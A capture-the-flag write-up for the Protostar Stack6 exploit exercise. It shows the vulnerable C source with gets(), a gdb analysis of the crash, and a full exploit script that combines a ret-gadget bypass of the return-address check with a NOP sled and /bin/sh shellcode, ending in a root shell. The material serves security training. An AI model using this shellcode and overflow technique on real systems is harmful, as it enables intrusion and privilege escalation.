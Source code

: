 #### Protostar Stack6

##### About
Stack6 looks at what happens when you have restrictions on the return address.  
  
This level can be done in a couple of ways, such as finding the duplicate of the payload ((objdump -s) will help with this), or ret2libc, or even return orientated programming.  
  
It is strongly suggested you experiment with multiple ways of getting your code to execute here.  
This level is at /opt/protostar/bin/stack6

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

In fact, we can try to make EIP point to a ret command, then a value(our shellcode address) on the stack will be pop to EIP again, so that the ret check can be bypassed.  
  
Other ways to solve this challenge can be found in references.

##### Solution
```
$ gdb stack6
......
(gdb) disas getpath
Dump of assembler code for function getpath:
0x08048484 <+0>:    push   %ebp
0x08048485 <+1>:    mov    %esp,%ebp
0x08048487 <+3>:    sub    $0x68,%esp
0x0804848a <+6>:    mov    $0x80485d0,%eax
0x0804848f <+11>:   mov    %eax,(%esp)
0x08048492 <+14>:   call   0x80483c0 <printf@plt>
0x08048497 <+19>:   mov    0x8049720,%eax
0x0804849c <+24>:   mov    %eax,(%esp)
0x0804849f <+27>:   call   0x80483b0 <fflush@plt>
0x080484a4 <+32>:   lea    -0x4c(%ebp),%eax
0x080484a7 <+35>:   mov    %eax,(%esp)
0x080484aa <+38>:   call   0x8048380 <gets@plt>
......
0x080484f9 <+117>:  ret ; <-- try to return to this command and then jump to the shellcode
End of assembler dump.
......
(gdb) quit

$ python -c "print 'A'*80+'B'*4+'C'*80" | ./stack6
......
Segmentation fault (core dumped)

root@protostar:/tmp# gdb -q -c core.11.stack6.1637
Core was generated by './stack6'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
(gdb) x/40x $esp-100
0xbffffcec:     0x00000001      0x00000000      0x00000001      0xb7fff8f8
0xbffffcfc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd0c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd1c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd2c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffd3c:     0x42424242      0x41414141      0x41414141      0x41414141
0xbffffd4c:     0x42424242      0x43434343      0x43434343      0x43434343
0xbffffd5c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd6c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffd7c:     0x43434343      0x43434343      0x43434343      0x43434343
(gdb) quit

$ cat script.sh
#!/bin/sh
python -c "print 'A'*80+'\xf9\x84\x04\x08'+'\x54\xfd\xff\xbf'+'\x90'*20+'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'" > /tmp/payload

$ ./script.sh
......
$ ./stack6 < /tmp/payload
......
# whoami
root
```

#### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>  
<https://thesprawl.org/research/exploit-exercises-protostar-stack/#stack-6>  
<https://www.mattandreko.com/2011/12/22/exploit-exercises-protostar-stack-6/>  
